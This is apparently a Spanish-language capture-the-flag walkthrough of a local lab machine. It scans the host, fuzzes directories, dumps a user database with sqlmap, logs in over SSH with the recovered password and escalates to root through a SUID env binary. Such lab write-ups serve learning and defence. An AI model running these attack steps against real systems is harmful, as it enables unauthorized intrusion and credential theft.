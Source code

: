 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Al ver que tiene el puerto 80 abierto, entonces iremos al navegador y descubriremos el contenido de este.
![alt text](image-1.png)

Vemos que contiene un login, así que vamos a hacer un fuzzing de este para ver si podemos encontrar algo que nos facilite la entrada a este.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r --no-error -b 404,403 -x txt,html,php
```
![alt text](image-2.png)

Vemos que no nos muestra nada, así que vamos a intentar realizar un inyección sql.
```
sqlmap -u http://172.17.0.2 --forms -dbs --batch
```
![alt text](image-3.png)

Vemos que con estos párametros hemos obtenido las bases de datos. Ahora intentaremos sacar las tablas.
```
sqlmap -u http://172.17.0.2 --forms -D register --tables --batch
```
![alt text](image-4.png)

Vemos que hemos obtenido las tablas de la base de tatos register, así que vamos a mostrar su contenido.
```
sqlmap -u http://172.17.0.2 --forms -D register -T users --dump --batch
```
![alt text](image-5.png)

Vemos que ya tenemos el usuario `dylan` con la contraseña `KJSDFG789FGSDF78`. Estos los vamos a introducir al login para comprobar que coincide.
![alt text](image-6.png)

Una vez vemos que todo coincide, vamos a intentar por ssh con estas credenciales.
```
ssh dylan@172.17.0.2
password: KJSDFG789FGSDF78
```
![alt text](image-7.png)

Una vez estamos dentro, vamos a intentar conseguir los privilegios de administrador.
```
find / -perm -u=s -type f 2>/dev/null
```
![alt text](image-8.png)

Vemos que el binario env, tiene permisos de administrador, así que lo vamos a explotar para escalar a root.
```
/usr/bin/env /bin/bash -p
```
![alt text](image-9.png)